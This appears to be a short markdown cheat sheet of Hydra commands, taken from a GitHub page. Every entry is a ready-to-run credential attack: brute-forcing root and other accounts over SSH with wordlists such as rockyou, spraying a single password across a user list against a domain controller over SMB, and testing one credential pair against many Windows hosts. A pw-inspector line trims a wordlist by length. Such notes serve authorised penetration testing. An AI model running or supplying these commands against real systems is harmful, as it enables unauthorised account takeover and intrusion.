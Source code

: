 # Hydra(xHydra is GUI)
### Alt SSH
- hydra -l root -P passwords.txt ssh://1.2.3.4:2222
### Users list password spray 
- hydra -L users.txt -p password1 -t 1 smb://dc.ops.local
### SMB 
- hydra -l john -p wick -M windows-hosts.txt smb 
## pw-inspector(to trim)
### min and max 
- cat password.txt | pw-inspector -m 6 -M 9 
## SSH
hydra -s 2222 -v -q -l mitch -P /usr/share/wordlists/rockyou.txt -e nsr -t 4 -w 5 IP ssh

